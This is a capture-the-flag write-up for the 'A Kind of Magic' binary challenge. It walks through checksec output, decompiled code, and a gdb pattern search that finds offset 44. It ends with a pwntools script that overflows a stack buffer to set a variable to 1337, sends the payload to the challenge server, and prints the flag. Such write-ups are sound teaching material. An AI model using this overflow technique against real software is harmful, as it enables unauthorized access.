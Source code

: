 # A Kind of Magic

by ZeroDayTea

You're a magic man aren't you? Well can you show me? nc 143.198.184.186 5000

## Challenge

In this challenge we were given an ELF-64bit named `akindofmagic` with no canary, NX enabled, and PIE is also enabled.

```
$ file akindofmagic; checksec akindofmagic 
akindofmagic: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c2529d1bf8b4d4717af0728e24730b6a407050d9,
for GNU/Linux 3.2.0, not stripped
[*] '/home/kali/Documents/killerqueen/akindofmagic'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Let's try to run it

```
$ ./akindofmagic                          
Is this a kind of magic? What is your magic?: 
chicken nugget
You entered chicken nugget

Your magic is: 0
You need to challenge the doors of time
```

It seems that the program will print our input and there is `Your magic is: 0` which obviously kinda odd. Let's open the program using ida to see what the source code looks like.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbp
  __int64 v4; // rsi
  __int64 v5; // rdx
  __int64 v7; // [rsp-38h] [rbp-38h]
  unsigned int v8; // [rsp-Ch] [rbp-Ch]
  __int64 v9; // [rsp-8h] [rbp-8h]

  __asm { endbr64 }
  v9 = v3;
  v8 = 0;
  sub_1090("Is this a kind of magic? What is your magic?: ", argv, envp);
  sub_10D0(_bss_start);
  sub_10C0(&v7, 64LL, stdin);
  sub_10B0("You entered %s\n", &v7);
  v4 = v8;
  sub_10B0("Your magic is: %d\n", v8);
  sub_10D0(_bss_start);
  if ( v8 == 1337 )
  {
    sub_1090("Whoa we got a magic man here!", v4, v5);
    sub_10D0(_bss_start);
    sub_10A0("cat flag.txt");
  }
  else
  {
    sub_1090("You need to challenge the doors of time", v4, v5);
    sub_10D0(_bss_start);
  }
  return 0;
}
```

From the main function, it seems that we need to overflow the input and change the `v8` variable. Since the program will also print the value inside the `v8` variable, we could check if our overflow is reaching v8 or not.

First, we could use gdb to create a pattern.
```
$ gdb -q ./akindofmagic
Reading symbols from ./akindofmagic...
(No debugging symbols found in ./akindofmagic)
gdb-peda$ pattern create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/akindofmagic 
Is this a kind of magic? What is your magic?: 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A
You entered AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AA
Your magic is: 1094796865
You need to challenge the doors of time

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the `v8` variable.
```
gdb-peda$ pattern offset 1094796865
1094796865 found at offset: 44
```

Nice, we got the offset/padding. Now we need to make the `v8` variable turns into 1337 in integer or 0x539 in hexadecimal.
```python
from pwn import *

padding = 44 # offset from the input to variable v8
hexNum = 0x539 # the value that we need to overwrite to v8

host = "143.198.184.186"
port = 5000

s = connect(host, port)

# receiving the first line of the program output
print(s.recvline())

# generating the payload
payload = b""
payload += b"A"*padding
payload += p64(hexNum)

# send the payload to the program
s.sendline(payload)

# receiving the rest of the program output
print(s.recvall())

s.close()
```

Now all we need to do is just run the program
![](akindofmagic.png)

Flag: `flag{i_hope_its_still_cool_to_use_1337_for_no_reason}`
